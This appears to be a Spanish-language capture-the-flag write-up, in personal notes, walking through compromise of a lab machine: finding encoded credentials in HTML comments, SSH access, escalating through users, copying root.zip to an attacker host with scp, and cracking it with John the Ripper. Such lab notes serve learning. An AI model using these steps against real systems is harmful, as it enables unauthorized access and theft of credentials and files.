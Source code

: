 Hacemos el escaneo con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230925091918.png]]
Y esta es la web:
![[Mis apuntes/ANEXOS/Pasted image 20230925091928.png]]
Si vemos el código fuente vemos este comentario:
![[Mis apuntes/ANEXOS/Pasted image 20230925092052.png]]
Por lo que accedemos aquí:
![[Mis apuntes/ANEXOS/Pasted image 20230925092109.png]]
Y volvemos a ver otro comentario:
![[Mis apuntes/ANEXOS/Pasted image 20230925092124.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230925092136.png]]
Y en la parte de la derecha del todo vemos unas líneas que ponen user y abajo del todo una pass:
```bash
<!-- USER .- .-.. .. -.-. . -->
<!-- PASS 53586470624778486230526c5a58426c63673d3d -->
```
![[Mis apuntes/ANEXOS/Pasted image 20230925092308.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230925092215.png]]
Sacamos la contraseña con cyberchef aplicándole el filtro de magic:
![[Mis apuntes/ANEXOS/Pasted image 20230925092500.png]]
Y sacamos el user de la misma forma:
![[Mis apuntes/ANEXOS/Pasted image 20230925092523.png]]
```bash
alice:IwillGoDeeper
```
Probamos en acceder vía ssh y vemos que funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230925092649.png]]
Viendo archivos ocultos nos encontramos con un .bob.txt:
![[Mis apuntes/ANEXOS/Pasted image 20230925092822.png]]
```bash
535746745247566c634556756233566e61413d3d
```
![[Mis apuntes/ANEXOS/Pasted image 20230925092857.png]]
Que nos extrae lo siguiente:
```bash
IamDeepEnough
```
Y usando esta clave nos convertimos en el usuario bob:
![[Mis apuntes/ANEXOS/Pasted image 20230925092957.png]]
Y dentro de la raíz nos encontramos con un archivo zip:
![[Mis apuntes/ANEXOS/Pasted image 20230925093026.png]]
Vamos a enviarnos este archivo por scp a nuestra máquina atacante:
```bash
scp root.zip kali@192.168.0.63:/home/kali/Desktop/
```
![[Mis apuntes/ANEXOS/Pasted image 20230925093528.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230925093535.png]]
Y tenemos una contraseña que tendremos que crackear usando john the ripper:
![[Mis apuntes/ANEXOS/Pasted image 20230925093604.png]]
Y vemos que la contraseña es bob:
![[Mis apuntes/ANEXOS/Pasted image 20230925093653.png]]
Y ya tenemos la password de root:
```bash
root:IhateMyPassword
```
![[Mis apuntes/ANEXOS/Pasted image 20230925093713.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230925093739.png]]
